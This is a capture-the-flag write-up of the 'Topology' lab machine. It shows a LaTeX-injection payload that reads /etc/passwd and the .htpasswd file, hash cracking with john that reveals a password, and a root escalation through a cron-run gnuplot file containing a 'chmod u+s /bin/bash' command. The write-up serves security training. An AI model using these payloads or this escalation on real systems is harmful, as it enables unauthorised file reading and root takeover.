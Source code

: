 # Topology

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.76.27 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 23:49 +08
Nmap scan report for 10.129.76.27
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

HTTP exploits it seems.&#x20;

### LaTeX Project --> LFI

The website is seems to be a university website:

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

There's a LaTeX Equation Generator available. LaTeX is a software made for documentation, and I'm roughly familiar with how it works to make mathematical equations for stuff like university math module notes. Anyways, we have to add `latex.topology.htb` to our `/etc/hosts` file to visit the `equation.php` site available.&#x20;

On the site itself, it just shows some basic LaTeX syntax:

<figure><img src="../../../.gitbook/assets/image (3253).png" alt=""><figcaption></figcaption></figure>

There are some exploits available pertaining to Latex Injection, such as being able to read machine files. I tried to use `\input{/etc/passwd}` to read files, but there's a WAF blocking it:

<figure><img src="../../../.gitbook/assets/image (2156).png" alt=""><figcaption></figcaption></figure>

I tested different payloads, and eventually found one that worked on this site:

{% embed url="https://0day.work/hacking-with-latex/" %}

```latex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Using this, we can get the first line of the `/etc/passwd` file:

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

Before carrying on, I wanted to some proper web enumeration to find out what I was supposed to do with this LFI. Using `wfuzz`, I found a `dev` subdomain:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" --hc=200 -u http://topology.htb
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://topology.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   401        14 L     54 W       463 Ch      "dev"
```

This returns a 401, and visiting it requires credentials:

<figure><img src="../../../.gitbook/assets/image (2140).png" alt=""><figcaption></figcaption></figure>

This is a HTTP sign in, meaning we can probably find the credentials in a `.htpasswd` file somewhere. Also, it coincides with the one-line LFI that we have. However, the same command does not work with the `/var/www/dev/.htpasswd` file, which is definitely where the password hash is stored.

In this case, what we can do is try to use other commands, like `\lstinputlisting`. However, this payload doesn't work:

```latex
\lstinputlisting{/var/www/dev/.htpasswd}
```

It doesn't work (as I've learnt) because the machine asks for **LaTeX inline math mode.** There are different modes for LaTeX present, and they would parse characters differently. If we use '$' signs, we can force the machine to process our query by switching mode for it.&#x20;

{% embed url="https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and" %}

If we use `\\lstinputlisting{/var/www/dev/.htpasswd}` instead, we see that it processes it as text:

<figure><img src="../../../.gitbook/assets/image (2429).png" alt=""><figcaption></figcaption></figure>

So by using `$\lstinputlisting{/var/www/dev/.htpasswd}$`, it would be processed as an expression (similar to `$()` in bash) and loads the hash:

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

We can crack the hash easily with `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:04 DONE (2023-06-12 00:30) 0.2375g/s 236511p/s 236511c/s 236511C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then we can access the `dev` subdomain:

<figure><img src="../../../.gitbook/assets/image (1322).png" alt=""><figcaption></figcaption></figure>

More importantly, we can access the user via `ssh`:

<figure><img src="../../../.gitbook/assets/image (3362).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GNUPlot

Within the `/opt` directory, there was a `gnuplot` file present:

```
vdaisley@topology:/opt$ ls
gnuplot
vdaisley@topology:/opt$ ls -al
total 12
drwxr-xr-x  3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 May 19 13:04 ..
drwx-wx-wx  2 root root 4096 Jun  6 08:14 gnuplot
```

I also ran a `pspy64` while searching more about this particular software, and found some interesting processes:

```
2023/06/11 12:35:01 CMD: UID=0    PID=2774   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2773   | /usr/sbin/CRON -f 
2023/06/11 12:35:01 CMD: UID=0    PID=2776   | /bin/sh /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2775   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/06/11 12:35:01 CMD: UID=0    PID=2781   | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2787   | gnuplot /opt/gnuplot/loadplot.plt 
2023/06/11 12:35:01 CMD: UID=0    PID=2786   | sed s/,//g 
2023/06/11 12:35:01 CMD: UID=0    PID=2785   | 
2023/06/11 12:35:01 CMD: UID=0    PID=2782   | find /opt/gnuplot -name *.plt -exec gnuplot {} ;                                                                                           
2023/06/11 12:35:01 CMD: UID=0    PID=2788   | gnuplot /opt/gnuplot/networkplot.plt 
```

We don't have read access to the directory, but we have write access, meaning we have to manipulate the `.plt` files present on the `/opt` directory to somehow achieve RCE as `root`. Or, we can just add another `.plt` file.&#x20;

I found a resource that shows the `system` keyword can be used to execute system commands:

{% embed url="http://www.bersch.net/gnuplot-doc/system.html" %}

We just need to create a `priv.plt` file within the directory:

```
system "chmod u+s /bin/bash"
```

Then, we can just wait for `root` to execute our new file and privesc that way:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
